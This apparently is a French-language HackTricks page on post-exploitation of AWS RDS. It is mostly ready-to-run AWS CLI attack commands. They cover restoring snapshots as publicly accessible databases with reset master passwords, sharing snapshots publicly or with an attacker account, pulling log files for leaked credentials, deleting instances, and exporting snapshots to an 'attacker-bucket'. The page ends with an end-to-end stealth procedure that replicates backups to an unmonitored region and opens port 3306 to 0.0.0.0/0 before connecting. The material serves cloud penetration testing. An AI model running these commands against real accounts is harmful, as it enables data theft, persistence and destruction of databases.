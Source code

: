# AWS - RDS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Pour plus d'informations, consultez :

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Si l'attaquant dispose de permissions suffisantes, il peut rendre une **DB accessible publiquement** en créant un snapshot de la DB, puis en créant une DB accessible publiquement à partir du snapshot.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Un attaquant avec ces permissions pourrait **créer un snapshot d'une DB** et le rendre **publiquement** **disponible**. Ensuite, il pourrait simplement créer dans son propre compte une DB à partir de ce snapshot.

Si l'attaquant **n'a pas le `rds:CreateDBSnapshot`**, il peut quand même rendre **autres** snapshots créés **publiques**.
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

Un attaquant disposant de l'autorisation `rds:DownloadDBLogFilePortion` peut **télécharger des portions des fichiers journaux d'une instance RDS**. Si des données sensibles ou des identifiants d'accès sont enregistrés par erreur, l'attaquant pourrait potentiellement utiliser ces informations pour escalader ses privilèges ou effectuer des actions non autorisées.
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Impact potentiel**: Accès à des informations sensibles ou exécution d'actions non autorisées en utilisant leaked credentials.

### `rds:DeleteDBInstance`

Un attaquant disposant de ces permissions peut **DoS des instances RDS existantes**.
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Impact potentiel** : Suppression des instances RDS existantes et perte potentielle de données.

### `rds:StartExportTask`

> [!NOTE]
> TODO: Test

Un attaquant disposant de cette autorisation peut **exporter un snapshot d'une instance RDS vers un S3 bucket**. Si l'attaquant a le contrôle du S3 bucket de destination, il peut potentiellement accéder à des données sensibles contenues dans le snapshot exporté.
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**Impact potentiel** : Accès aux données sensibles dans le snapshot exporté.

### Réplication entre régions des sauvegardes automatisées pour une restauration furtive (`rds:StartDBInstanceAutomatedBackupsReplication`)

Exploiter la réplication entre régions des sauvegardes automatisées pour dupliquer silencieusement les sauvegardes automatisées d'une instance RDS dans une autre AWS Region et y restaurer la base. L'attaquant peut ensuite rendre la DB restaurée accessible publiquement et réinitialiser le mot de passe master pour accéder aux données hors-bande dans une région que les défenseurs pourraient ne pas surveiller.

Permissions requises (minimum) :
- `rds:StartDBInstanceAutomatedBackupsReplication` dans la région de destination
- `rds:DescribeDBInstanceAutomatedBackups` dans la région de destination
- `rds:RestoreDBInstanceToPointInTime` dans la région de destination
- `rds:ModifyDBInstance` dans la région de destination
- `rds:StopDBInstanceAutomatedBackupsReplication` (nettoyage optionnel)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (pour exposer la DB restaurée)

Impact : Persistance et exfiltration de données en restaurant une copie des données de production dans une autre région et en l'exposant publiquement avec des identifiants contrôlés par l'attaquant.

<details>
<summary>CLI de bout en bout (remplacez les paramètres)</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


{{#include ../../../banners/hacktricks-training.md}}
